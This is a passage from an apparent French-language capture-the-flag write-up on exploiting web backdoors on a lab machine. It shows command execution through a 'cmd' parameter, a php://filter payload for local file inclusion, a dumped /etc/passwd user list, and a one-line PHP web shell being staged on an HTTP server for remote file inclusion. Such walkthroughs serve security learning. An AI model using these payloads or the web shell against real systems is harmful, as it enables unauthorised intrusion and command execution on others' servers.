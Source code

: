 On y trouve une liste de backdoors web présentes sur kali.

J'ai testé différents noms de fichiers à la mano et je suis tombé sur le script `simple-backdoor.php` qui n'attendait qu'un paramètre `cmd`.

Par exemple `cmd=id` donne `uid=33(www-data) gid=33(www-data) groups=33(www-data)`.

Mais dès que l'on souhaite passer un paramètre à la commande, ça ne marche plus, comme si ça bloquait au premier whitespace.

Sans espace, on peut tout de faire faire un `ls` et il m'a révélé l'autre backdoor : `mysuperbackdoor.php`.

Ce script mentionnait qu'il avait besoin d'un paramètre `file`. Je lui ai passé `simple-backdoor.php` et au lieu d'obtenir le code source, j'ai eu la même réponse que précédemment, preuve que le script fait une inclusion et pas seulement un directory traversal.

Du coup, je lui ai passé ce filtre PHP pour obtenir le contenu de `simple-backdoor.php` en base64 :

```
php://filter/convert.base64-encode/resource=simple-backdoor.php
```

Voici le code :

```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        $result = preg_replace("/[^a-zA-Z0-9]+/", "", $cmd);
        system($result);
        echo "</pre>";
        die;
}

?>
```

Ca explique nos difficultés.

En chargeant `/etc/passwd` on obtient quelques utilisateurs.

```
murda:x:1000:1000:murda,,,:/home/murda:/bin/bash
violent:x:1001:1001:,,,:/home/violent:/bin/bash
yo:x:1002:1002:,,,:/home/yo:/bin/bash
ruin:x:1003:1003:,,,:/home/ruin:/bin/bash
theuser:x:1004:1004:,,,:/home/theuser:/bin/bash
suidy:x:1005:1005:,,,:/home/suidy:/bin/bash
```

Il est désormais temps de tester la RFI (inclusion distante). Pour cela, il faut un serveur qui n'interprète pas le PHP, ce sera + simple :

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
sudo python3 -m http.server 80
```
